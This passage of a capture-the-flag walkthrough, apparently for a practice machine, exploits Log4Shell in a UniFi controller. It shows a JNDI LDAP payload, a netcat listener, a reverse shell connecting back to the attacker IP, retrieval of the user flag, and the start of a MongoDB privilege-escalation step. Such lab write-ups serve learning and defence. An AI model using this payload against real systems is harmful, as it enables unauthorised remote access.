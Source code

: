 ```console
Mapping ldap://10.10.14.15:1389/ to artsploit.controllers.RemoteReference
Mapping ldap://10.10.14.15:1389/o=reference to artsploit.controllers.RemoteReference
```

And lastly, before execution, we just need to set up netcat to listen to port 4444.

```console
┌──(kali㉿kali)-[~/Downloads]
└─$ nc -nlvp 4444                
listening on [any] 4444 ...
```

Now for the execution.

Payload: `"${jndi:ldap://10.10.14.15:1389/o=tomcat}"`

```console
┌──(kali㉿kali)-[~/Downloads]
└─$ nc -nlvp 4444                
listening on [any] 4444 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.28.168] 58794
script /dev/null -c bash
Script started, file is /dev/null
unifi@unified:/usr/lib/unifi$ whoami
unifi
```

We got a shell!

```console
unifi@unified:/usr/lib/unifi$ pwd
/usr/lib/unifi
unifi@unified:/usr$ cd /home
cd /home
unifi@unified:/home$ ls
ls
michael
unifi@unified:/home$ cd michael
cd michael
unifi@unified:/home/michael$ ls
ls
user.txt
unifi@unified:/home/michael$ cat user.txt
cat user.txt
6ced1a6a89e666c0620cdb10262ba127
```

The user flag: `6ced1a6a89e666c0620cdb10262ba127`

Now it is time to go for root. Following the [article](https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi), we need to check if MongoDB is running.

```console
unifi@unified:/$ ps aux | grep mongo
unifi         67  0.4  4.1 1100676 84848 ?       Sl   09:50   0:28 bin/mongod --dbpath /usr/lib/unifi/data/db --port 27117 --unixSocketPrefix /usr/lib/unifi/run --logRotate reopen --logappend --logpath /usr/lib/unifi/logs/mongod.log --pidfilepath /usr/lib/unifi/run/mongod.pid --bind_ip 127.0.0.1
unifi       3299  0.0  0.0  11468  1052 pts/0    S+   11:48   0:00 grep mongo
```
